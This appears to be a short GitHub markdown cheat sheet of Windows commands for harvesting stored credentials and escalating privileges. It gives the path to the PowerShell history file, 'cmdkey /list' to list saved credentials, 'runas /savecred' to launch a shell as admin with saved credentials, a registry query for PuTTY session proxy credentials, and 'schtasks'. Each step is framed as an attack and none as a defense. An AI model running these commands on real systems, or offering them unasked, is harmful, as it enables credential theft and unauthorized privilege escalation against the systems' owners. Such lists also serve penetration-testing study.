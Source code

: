 #Powershell History
Tool: cmd ( admin )
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
![image](https://github.com/cyberwh15ky/command/assets/142871997/1f4ccdad-a35f-4327-bd05-5a2fa3b66ba5)

#Saved Windows Credentials
Tool: cmd ( admin )
cmdkey /list
![image](https://github.com/cyberwh15ky/command/assets/142871997/f1fa1fff-530b-4b6c-8b30-6b3db45faeb5)

#Try the user login
Tool: cmd ( admin )
runas /savecred /user:admin cmd.exe
![image](https://github.com/cyberwh15ky/command/assets/142871997/ae29ae45-a559-4b11-a6d0-3884840a2952)
![image](https://github.com/cyberwh15ky/command/assets/142871997/26305a77-91b3-4550-8d86-d783c0afa33b)


#Retrieve Credentials from Software: PuTTY
Tool: cmd ( admin )
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
![image](https://github.com/cyberwh15ky/command/assets/142871997/fd76849c-6eaa-4f9d-81a9-4c447154b311)
![image](https://github.com/cyberwh15ky/command/assets/142871997/d2c68171-98c8-4b9b-bcc6-423b6458b993)




Scheduled Tasks
Tool: cmd ( admin )
> schtasks
